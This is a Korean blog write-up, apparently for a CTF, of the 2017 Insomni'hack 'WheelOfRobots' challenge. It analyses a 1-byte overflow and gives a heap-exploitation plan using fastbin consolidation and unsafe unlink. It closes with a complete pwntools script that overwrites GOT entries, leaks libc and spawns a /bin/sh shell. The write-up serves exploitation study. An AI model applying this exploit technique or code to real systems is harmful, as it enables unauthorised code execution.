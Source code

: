 ```yaml
---
layout: post
title: "[2017_Insomni'hack] WheelOfRobots 풀이"
date: 2018-09-26 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```


>[WheelOfRobots](https://github.com/pwnwiz/CTF/raw/master/WheelOfRobots/WheelOfRobots) 

으어

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![checksec](/img/2017_Insomni'hack/WheelOfRobots/01.png)
{: refdef}

`func_add`

1. 로봇 선택 (이때 `1byte overflow` 발생)

2. `2`, `3`, `6` 일 경우 로봇의 특성 값 같은걸 입력

3. 로봇의 이름만큼 할당받고 그 안에 이름이 들어감

4. `robot_count` 증가<br /><br />

`func_delete`

1. 로봇 선택

2. `flag` 값이 존재하면 `free(robot_name)`, `robot_count` 감소<br /><br />

`func_change`

1. 로봇 선택

2. `flag` 값이 존재하면 해당 로봇의 이름만큼 `read`<br /><br />

`func_start`

1. `robot_count`가 2 초과인지 확인 아닐시 `return`

2. `sub_4015BD(6)`의 결괏값과 `robot_flag` 값을 가지고 특정 함수 실행 (별로 안 중요)

3. `exit(1)`<br /><br />

`robot_list`

{: refdef: style="text-align: center;"}
![robot_list](/img/2017_Insomni'hack/WheelOfRobots/02.png)
{: refdef}

이 문제는 `robot_name`, `robot_flag`, `robot_len`까지 다 `bss`에 저장돼 있어요.

- - -
# 0x01. 공격 방법

`func_add`의 **1**을 보면 `1byte overflow`가 발생하는데 해당 버퍼를 보면 `robot_2_flag`의 값을 바꿀 수 있어요.

그래서 `robot_2`를 가지고 `unsafe_unlink`를 사용할 거에요.

`robot_2`는 `fastbin`이라서 `fastbin_dup_consolidate`을 사용할 수 있어요.

1. `func_add(2)` input = `2`

2. `func_add(4)`

3. `func_delete(2)`

4. `func_add(5)` -> `fastbin_dup_consolidate`, `1byte overflow` -> `robot_2_flag = 1`

5. `func_change(2)`를 사용해 `fake_chunk`를 만듦

6. `func_delete(4)` -> `robot_2`의 `fake_chunk`에서 `unlink` 실행

7. `robot_2_name`의 주소가 `robot_2_name - 0x18`로 바뀜

8. `func_change(2)`로 `robot_2_name - 0x18`부터 `0x28`만큼 데이터를 바뀌서 `system(/bin/sh)` 실행

- - -
# 0x02. 익스플로잇

```python
from pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = ""
PORT = 4444
#PORT =

s = remote(HOST, PORT)
pause()

elf = ELF("./WheelOfRobots")
libc = ELF("./libc.so.6")

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
free_got = elf.got["free"]

puts_off = libc.symbols["puts"]
system_off = libc.symbols["system"]

robot_4_name = 0x6030E0
robot_2_name = 0x6030F0
robot_2_flag = 0x603114

def func_add(index):
    s.recvuntil("Your choice : ")
    s.sendline("1")

    s.recvuntil("Your choice :")
    s.sendline(index)

def func_delete(index):
    s.recvuntil("Your choice : ")
    s.sendline("2")

    s.recvuntil("Your choice :")
    s.sendline(str(index))

def func_change(index, content):
    s.recvuntil("Your choice : ")
    s.sendline("3")

    s.recvuntil("Your choice :")
    s.sendline(str(index))

    s.recvuntil("Robot's name: ")
    s.send(content)

func_add(str(2))
s.sendline("2")
func_add(str(4))

func_delete(2)
func_add("5" + "\x00\x00\x00" + "\x01")

payload = p64(0x0)
payload += p64(0x20)
payload += p64(robot_2_name - 0x18)
payload += p64(robot_2_name - 0x10)
payload += p64(0x20)
func_change(2, payload)

func_delete(4)

payload = p64(0x0)*3
payload += p64(robot_4_name) # robot_2_name
func_change(2, payload)

payload = p64(free_got) # robot_4_name
payload += p64(puts_got) # robot_6_name
payload += p64(robot_2_flag) # robot_2_name
func_change(2, payload)

payload = p32(0x1)*3 # robot_2, 4, 6 flag
func_change(2, payload)

func_change(4, p64(puts_plt))
func_delete(6) # libc_leak
libc_puts = u64(s.recvuntil("\x7f").ljust(8, "\x00"))

libc_base = libc_puts - puts_off
libc_system = libc_base + system_off

print
log.info("libc_base : " + hex(libc_base))
log.info("libc_puts : " + hex(libc_puts))
log.info("libc_system : " + hex(libc_system))
print

func_change(4, p64(libc_system))
func_change(2, "/bin/sh\0")
func_delete(2)

s.interactive()
```
